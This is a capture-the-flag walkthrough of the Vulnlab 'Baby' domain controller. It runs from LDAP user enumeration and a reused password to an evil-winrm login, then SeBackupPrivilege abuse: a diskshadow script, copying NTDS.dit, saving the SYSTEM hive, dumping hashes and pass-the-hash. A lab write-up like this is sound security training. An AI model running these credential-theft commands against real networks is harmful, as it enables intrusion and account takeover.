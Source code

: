 # Vulnlab - Baby

## NMAP

```bash
Nmap scan report for 10.10.83.40     
Host is up (0.081s latency).                
Not shown: 65523 filtered tcp ports (no-response)
PORT      STATE SERVICE    VERSION
53/tcp    open  domain     Simple DNS Plus
135/tcp   open  tcpwrapped
139/tcp   open  tcpwrapped     
389/tcp   open  tcpwrapped
445/tcp   open  tcpwrapped
593/tcp   open  tcpwrapped
3268/tcp  open  tcpwrapped
3389/tcp  open  tcpwrapped
| ssl-cert: Subject: commonName=BabyDC.baby.vl
| Issuer: commonName=BabyDC.baby.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-06-16T16:00:59
| Not valid after:  2023-12-16T16:00:59
| MD5:   55aa85b5f2fd316af5fbb1c8ad357d53
|_SHA-1: ae0ab02e5de2d54a9180931ff745d5a00deb41a2
|_ssl-date: 2023-06-17T16:09:48+00:00; +24s from scanner time.
5985/tcp  open  tcpwrapped
49664/tcp open  tcpwrapped
60083/tcp open  tcpwrapped
65331/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows 
```

## PORT 445 (SMB)

Enumerating smb shares with anonymous user it doesn't allow us to either list or read shares being unauthenticated

<img src="https://i.imgur.com/eYIUk4w.png"/>
We can move on to ldap which is running on port 389

## PORT 389 (LDAP)

On checking ldap with null authentication

```bash
ldapsearch -x -H ldap://10.10.83.40 -D '' -w '' -b "DC=baby,DC=vl"
```

This starts to return us usernames 

<img src="https://i.imgur.com/isY45pH.png"/>

We can use grep to filter for usernames

```bash
ldapsearch -x -H ldap://10.10.83.40 -D '' -w '' -b "DC=baby,DC=vl" | grep sAMAccountName | awk -F: '{ print $2 }' |  awk '{ gsub(/ /,""); print }'
```

<img src="https://i.imgur.com/spQzXI1.png"/>
With `kerbrute` we can verify domain users which also perform AS-REP roasting but here it didn't found any domain user with pre-authentication disabled

<img src="https://i.imgur.com/YfypfOu.png"/>

We can grep for user descriptions where on `Teresa.Bell` 's password was found from it's description

<img src="https://i.imgur.com/WMFF3HJ.png"/>

But using this password for Teresa failed as this password doesn't belong to her

<img src="https://i.imgur.com/QUSMgC3.png"/>

Spraying this password across the domain didn't worked as well

<img src="https://i.imgur.com/iznIIgx.png"/>

## Foothold (Connor.Wilkinson)

So going back to ldap, there was a user`Caroline.Robinson` which didn't had any attributes thus didn't get covered when it was getting filtered with `sAMAccountName` 

<img src="https://i.imgur.com/bDojsRM.png"/>

For this username the password is valid but it needs to be changed

<img src="https://i.imgur.com/PzhDxh5.png"/>
We can change her password by using impacket's `smbpasswd` by referring to this article

https://exploit-notes.hdks.org/exploit/windows/active-directory/smb-pentesting/

```bash
smbpasswd -U Caroline.Robinson -r 10.10.83.40
```

<img src="https://i.imgur.com/fttEduI.png"/>

We can try authenticating on WinRM to see if this user is in remote desktop group

<img src="https://i.imgur.com/kTADncK.png"/>

It shows Pwn3d! status which means we can login through WinRM

```bash
evil-winrm -i 10.10.83.40 -u 'Caroline.Robinson' -p 'BabyStart12345$Abc#!'
```

<img src="https://i.imgur.com/rgJR7uU.png"/>

Checking the privileges of this account with `whoami /all` we have `SeBackupPrivilege` privilege

<img src="https://i.imgur.com/JOAVqu3.png"/>


>Caroline's password will keep getting revert back as there was a script running, so you'll need to change the password again

## Privilege Escalation (Administrator)

Following this article to abuse `SeBackupPrivilege`

https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/

Create a `dsh` script file and convert it to dos format with `unix2dos`

```bash
set context persistent nowriters
add volume c: alias owo
create
expose %owo% z:
```

<img src="https://i.imgur.com/5jeZKcC.png"/>

Now with `robocop`, copying `NTDS.dit` file in current directory

<img src="https://i.imgur.com/28xvP0k.png"/>

<img src="https://i.imgur.com/yIB1HM8.png"/>

Downloading the file on to our kali machine

<img src="https://i.imgur.com/1oEKuMr.png"/>

After downloading the file we'll have ntds.dit

<img src="https://i.imgur.com/S2EiIxv.png"/>

We'll also need `SYSTEM` file

```powershell
reg save hklm\system C:\Windows\Temp\system
```

<img src="https://i.imgur.com/Ax68SRu.png"/>

Having this file, we'll be able to parse through NTDS.dit file to dump hashes and get the administrator's hash

<img src="https://i.imgur.com/Xcp2BMe.png"/>

Now with `pass the hash` we'll be able to login as administrator

<img src="https://i.imgur.com/D1c5czy.png"/>

## References

- https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap
- https://exploit-notes.hdks.org/exploit/windows/active-directory/smb-pentesting/
